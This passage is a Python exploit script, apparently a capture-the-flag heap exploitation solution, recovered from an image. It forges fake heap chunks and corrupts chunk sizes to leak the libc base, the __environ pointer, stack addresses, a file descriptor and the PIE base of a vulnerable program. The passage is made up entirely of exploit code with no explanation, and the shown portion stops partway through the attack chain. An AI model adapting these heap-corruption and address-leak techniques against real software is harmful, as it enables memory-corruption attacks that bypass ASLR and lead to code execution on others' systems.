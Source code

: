 ```python
payload += p64(0x21) + b'\x00' * 0x18
payload += p64(0x21) + p64(heap_base + 0x102c0 + 0x10) + b'\x00' * 16
payload += p64(0x41) + b'\x00' * 0x38
payload += p64(0xc91)
recv_data(0, 0x10010, -0x10010 & 0xffffffff, payload + b'\x00' * (0x10d50 - len(payload)))
sleep(1)
p.send(b'\x00')
clear_data(0)
l.address = u64(get_info(1)[:8]) - (0x7fd42b62cb20 - 0x7fd42b429000)
print(hex(l.address))
print(hex(l.sym['__environ']))

payload = p64(l.sym['__environ']) + b'\x00' * 16
payload += p64(0x10011) + b'\x00' * 0x10008
payload += p64(0x21) + p64(l.sym['__environ']) + b'\x00' * 16
payload += p64(0x21) + b'\x00' * 0x18
payload += p64(0x21) + p64(l.sym['__environ']) + b'\x00' * 16
payload += p64(0x41) + b'\x00' * 0x38
payload += p64(0xc91)
recv_data(0, 0x10010, -0x10010 & 0xffffffff, payload + b'\x00' * (0x10d50 - len(payload)))
sleep(1)
p.send(b'\x00')
stack = u64(get_info(0)[:8]) - (0x00007fff0be8f460 - 0x7fff0be8f278)
stack2 = u64(get_info(0)[:8]) - (0x00007ffdc2e8ab70 - 0x7ffdc2e8a9f4)
print(hex(stack))
print(hex(stack2))

payload = p64(stack2) + b'\x00' * 16
payload += p64(0x10011) + b'\x00' * 0x10008
payload += p64(0x21) + p64(stack2) + b'\x00' * 16
payload += p64(0x21) + b'\x00' * 0x18
payload += p64(0x21) + p64(stack2) + b'\x00' * 16
payload += p64(0x41) + b'\x00' * 0x38
payload += p64(0xc91)
recv_data(0, 0x10010, -0x10010 & 0xffffffff, payload + b'\x00' * (0x10d50 - len(payload)))
sleep(1)
p.send(b'\x00')
fd = u32(get_info(0)[4:8])
print(hex(fd))

payload = p64(stack2 - 0x34) + b'\x00' * 16
payload += p64(0x10011) + b'\x00' * 0x10008
payload += p64(0x21) + p64(stack2 - 0x34) + b'\x00' * 16
payload += p64(0x21) + b'\x00' * 0x18
payload += p64(0x21) + p64(stack2 - 0x34) + b'\x00' * 16
payload += p64(0x41) + b'\x00' * 0x38
payload += p64(0xc91)
recv_data(0, 0x10010, -0x10010 & 0xffffffff, payload + b'\x00' * (0x10d50 - len(payload)))
sleep(1)
p.send(b'\x00')
pie_base = u64(get_info(0)[8:0x10]) - 0x1e81
print(hex(pie_base))

payload = p64(pie_base + 0x4020) + b'\x00' * 16
payload += p64(0x10011) + b'\x00' * 0x10008
payload += p64(0x21) + p64(pie_base + 0x4020) + b'\x00' * 16
payload += p64(0x21) + b'\x00' * 0x18
payload += p64(0x21) + p64(pie_base + 0x4020) + b'\x00' * 16
payload += p64(0x41) + b'\x00' * 0x38
payload += p64(0xc91)
recv_data(0, 0x10010, -0x10010 & 0xffffffff, payload + b'\x00' * (0x10d50 - len(payload)))
sleep(1)
p.send(b'\x00')
```